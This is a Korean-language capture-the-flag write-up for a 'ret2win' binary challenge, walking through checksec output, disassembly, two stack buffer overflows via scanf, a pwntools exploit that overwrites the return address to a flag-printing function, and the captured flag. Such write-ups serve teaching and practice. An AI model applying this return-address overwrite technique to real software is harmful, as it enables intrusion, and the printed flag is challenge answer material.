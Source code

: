 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-42-37.png)

첨부파일

[ret2win.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

ret2win의 기본 정보를 파악한다.

```sh
root@ubuntu:~# file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8a87728e002ee79777aa4dbce3ec1e2c6174f358, for GNU/Linux 3.2.0, not stripped
root@ubuntu:~# checksec ret2win
[*] '/root/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

언제나 그렇듯 입력받는 부분(scanf)에서 overflow가 터진다.

```
0x000000000040125f <+98>:    lea    -0x10(%rbp),%rax
0x0000000000401263 <+102>:   mov    %rax,%rsi
0x0000000000401266 <+105>:   lea    0xdda(%rip),%rdi        # 0x402047
0x000000000040126d <+112>:   mov    $0x0,%eax
0x0000000000401272 <+117>:   callq  0x4010c0 <__isoc99_scanf@plt>
0x0000000000401277 <+122>:   cmpl   $0x1337c0d3,-0x4(%rbp)
0x000000000040127e <+129>:   jne    0x4012a4 <main+167>
0x0000000000401280 <+131>:   lea    0xdc5(%rip),%rdi        # 0x40204c
0x0000000000401287 <+138>:   callq  0x401080 <puts@plt>
0x000000000040128c <+143>:   lea    -0x1c(%rbp),%rax
0x0000000000401290 <+147>:   mov    %rax,%rsi
0x0000000000401293 <+150>:   lea    0xdb8(%rip),%rdi        # 0x402052
0x000000000040129a <+157>:   mov    $0x0,%eax
0x000000000040129f <+162>:   callq  0x4010c0 <__isoc99_scanf@plt>
0x00000000004012a4 <+167>:   mov    $0x0,%eax
0x00000000004012a9 <+172>:   leaveq
0x00000000004012aa <+173>:   retq
```

또한 0x4011BA에서 flag.txt를 읽고 출력하는 로직이 존재한다.

![](images/2022-05-18-19-43-03.png)

첫번째 scanf에서는 0x10(16)byte만큼 공간이 확보되지만, 0x401266에서 20byte만큼 받을 수 있다. 그리고 0x401277에서 [rbp-4]와 0x1337C0D3와 비교하여 일치해야 다음 로직으로 진행할 수 있다.(여기서 overflow는 필요없음)

![](images/2022-05-18-19-43-13.png)

두번째 scanf에서는 0x1C(28)byte만큼 공간이 확보되지만, 0x401293에서 44byte만큼 받을 수 있고, 0x4012A4에서 return할 때, flag를 출력하는 로직이 시작되는 부분(0x4011BA)으로 return address를 덮으면 된다.

![](images/2022-05-18-19-43-20.png)

따라서 exploit 코드는 다음과 같이 작성하면 flag를 획득할 수 있다. (포스팅 시 해당 대회는 이미 끝난 상태라 로컬에서 flag.txt를 만들고 그 안에 flag값을 넣고 진행)

```py
from pwn import *
context(arch='amd64')
p = process('./ret2win')

payload = b''
payload += b'\x00'*(0x10 - 0x04)
payload += p32(0x1337C0D3)
p.recvuntil('specific')
p.sendline(payload)

payload = b'\x00'*(0x1C + 0x08)
payload += p64(0x4011BA)
p.recvuntil('Check')
p.sendline(payload)

p.interactive()

[Output]
root@ubuntu:~# [+] Starting local process './ret2win': pid 3225
[*] Switching to interactive mode

ictf{mak1ng_r@nd0m_flags_15_n0t_fun}

[*] Got EOF while reading in interactive
$
```


# **FLAG**

**ictf{mak1ng_r@nd0m_flags_15_n0t_fun}**